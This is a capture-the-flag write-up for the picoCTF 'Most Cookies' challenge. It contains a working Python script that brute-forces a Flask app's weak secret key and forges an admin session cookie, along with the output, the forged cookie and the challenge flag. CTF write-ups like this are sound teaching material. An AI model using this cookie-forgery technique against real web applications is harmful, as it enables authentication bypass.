

---

Taking a look at the source code in `server.py`, we notice the following:

- If we are at the `/display` page and inside the session cookie there is a variable called `very_auth` whose value is `admin`, then the flag is displayed.
```python
@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
```

So very simply, I captured the request using Burp Suite while on the `/display` page, and tried to play with the session cookie to add a `very_auth` variable with a value of `admin`.



Observing the request we notice that the session cookie is in fact a JWT token, and if we highlight the first portion of the JWT, we see that it has: `"very_auth":"blank"`.
- So i tried to change it such that its value is `admin`, but to no avail, it doesn't work.

> This lead me to believe that to change the value of the JWT, we need to properly change the entire token such that the signature matches what the body contains.

To generate the valid signature, we need the secret key used, which luckily, is something we have in the source code of the `server.py` file.

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```

> We can generate a script, that tries all of the above cookies as the secret key while making a call to the `/display` page to see which one works.

Taking the hint of flask session cookies, I searched the internet how to create session cookies using flask, and it turns out, the encoding process of the session cookies is what matters.
- I found this GitHub [Link](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe) that has a simple script to encode session cookies.
- What's remaining is to add a loop functionality that loops over the list of possible secret keys, and then sends a request with the created session cookie to the `/display` page and check the response if the flag is inside it.

```python
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import requests

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
    # Override method
    # Take secret_key instead of an instance of a Flask app
    def get_signing_serializer(self, secret_key):
        if not secret_key:
            return None
        signer_kwargs = dict(
            key_derivation=self.key_derivation,
            digest_method=self.digest_method
        )
        return URLSafeTimedSerializer(secret_key, salt=self.salt,
                                      serializer=self.serializer,
                                      signer_kwargs=signer_kwargs)

def decodeFlaskCookie(secret_key, cookieValue):
    sscsi = SimpleSecureCookieSessionInterface()
    signingSerializer = sscsi.get_signing_serializer(secret_key)
    return signingSerializer.loads(cookieValue)

# Keep in mind that flask uses unicode strings for the
# dictionary keys
def encodeFlaskCookie(secret_key, cookieDict):
    sscsi = SimpleSecureCookieSessionInterface()
    signingSerializer = sscsi.get_signing_serializer(secret_key)
    return signingSerializer.dumps(cookieDict)

if __name__ == '__main__':
    cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
    
    sessionDict = {'very_auth':'admin'}
    url = 'http://mercury.picoctf.net:44693/display'

    for sk in cookie_names:
        print(sk)
        cookie_value = encodeFlaskCookie(sk, sessionDict)
        cookies = {
            'session': cookie_value
        }
        response = requests.get(url, cookies=cookies, allow_redirects=False)

        if "Flag" in response.text:
            print(response.text)
            print("####################")
            print("\n\n\n\n\n")
            print(cookie_value)
            break
```

After running this code, we get the following output:

```
butter
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Most Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Reset</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Most Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
####################


eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZuKz8w.ejHMZnWAN0LCGYaExf8r88JeQKg
```

Therefore, the correct signing key was `butter`, and we used the flask encoding functionality to create our session cookie containing the value `very_auth:admin` and signed it with the secret key.
- The loops purpose was to send requests to the `/display` page with the cookie value, and check if the flag was returned, and it was.

> See printed at the bottom the value of the session cookie, or the JWT, that if we decode the first portion using Base64, we will get the value we encoded.

The flag:
```
picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}
```

---
